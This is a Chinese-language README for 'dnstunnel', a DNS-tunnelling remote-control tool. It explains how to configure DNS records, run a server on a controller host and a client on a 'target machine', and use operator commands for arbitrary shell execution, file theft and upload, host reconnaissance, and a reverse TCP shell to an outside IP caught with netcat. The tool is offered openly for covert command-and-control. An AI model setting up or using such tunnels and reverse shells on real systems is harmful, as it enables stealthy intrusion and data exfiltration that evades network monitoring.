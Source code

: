 # dnstunnel
一款多会话的二进制DNS隧道远控，一个服务端可以连接多个客户端（暂未做充分测试，欢迎提issue）。  
DNS通道传输能力非常有限，速率比较低，传输大量的字节需要很长时间。  
协议更新前后效果对比： 
传输9K左右数据，使用停等协议需要3分47秒，使用选择性重传（滑动窗口）协议需要1分53秒。
# 编译
依赖zlib  
```
./build.sh
```
编译debug版本  
```
./build.sh debug
```
# 域名配置
使用者需要在域名服务做如下配置(以gandi.net为例):  
添加一条A记录: 
```
ns1 10800 IN A 55.55.55.55
```
再添加一条NS记录: 
```
1 1800 IN NS ns1.test.website.
```
# 使用说明
按照以上添加后, 在55.55.55.55上启动NDNS_server
```
./NDNS_server
```
在目标机带参数启动NDNS_client
```
./NDNS_client .1.test.website
```
# 用户界面
支持如下命令
```
session <list|clientid>
getuid
upload <local> <remote>
download <remote> <local>
bash <shell cmd>
move <src> <dst>
mkdir <dir>
rmdir <dir>
rename <old> <new>
list
rm <file>
cd <dir>
pwd
hostip
reverse <ip> <port>
Session[29727]>>
```
## session
```
session list
```
列出当前所有会话
```
session clientid
```
切换到对应会话  
## getuid  
```
getuid
```
获取当前远程会话的用户ID  
## upload
```
upload aaa bbb
```
将本地文件aaa上传到远程会话机器bbb，限制文件aaa压缩后要小于430字节  
## download
```
download aaa bbb
```
将远程文件aaa下载到本地为bbb，下载速率大概20-30字节/秒，所以千万不要下载大文件，否则耗时超级长  
## bash
```
bash which python
```
可执行任意shell命令，返回执行结果，注意不要执行需要交互的命令  
## move
```
move <src> <dst>
```
和mv功能一致，暂未实现，可能用处很少  
## mkdir
```
mkdir aaa
```
在远端创建文件夹aaa  
## rmdir  
删除远端文件夹  
## rename  
重命令文件  
## list
```
list
```
在远端程序当前目录执行ls -lrt并返回结果  
## rm  
删除远端文件  
## cd  
切换远端程序当前目录  
## pwd  
获取远端程序当前目录  
## hostip  
获取远端机器的出口ip和主机名
## reverse
反弹TCP shell，服务端使用nc -lvnp 56789接收
```
reverse 112.55.4.22 56789
```
# systemd-resolve占用53端口的解决方法
以ubuntu为例，编辑
```
/etc/systemd/resolved.conf
```
按下面修改
```
[Resolve]
DNS=8.8.8.8  #取消注释，增加dns
#FallbackDNS=
#Domains=
#LLMNR=no
#MulticastDNS=no
#DNSSEC=no
#Cache=yes
DNSStubListener=no  #取消注释，把yes改为no
```
重启服务
```
systemctl restart systemd-resolved
```